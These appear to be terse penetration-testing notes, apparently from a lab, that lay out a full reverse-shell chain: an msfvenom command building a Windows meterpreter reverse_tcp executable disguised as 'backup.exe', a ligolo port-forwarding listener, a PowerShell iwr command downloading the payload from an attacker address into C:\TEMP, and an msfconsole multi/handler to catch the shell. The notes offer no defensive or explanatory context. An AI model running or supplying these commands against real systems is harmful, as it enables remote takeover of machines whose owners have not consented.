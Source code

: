 ```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.219.254 LPORT=3324 -f exe -o backup.exe
```

ligolo proxy add
```
listener_add --addr 0.0.0.0:3324 --to 0.0.0.0:3324
```

download payload
```
cd C:\TEMP
rm backup.exe
iwr http://172.16.219.254:1235/backup.exe -outfile backup.exe
```

start multi/handler
```
msfconsole -q -x 'use exploit/multi/handler;set LHOST 0.0.0.0;set LPORT 3324;set payload windows/x64/meterpreter/reverse_tcp;run'
```

wait a seconds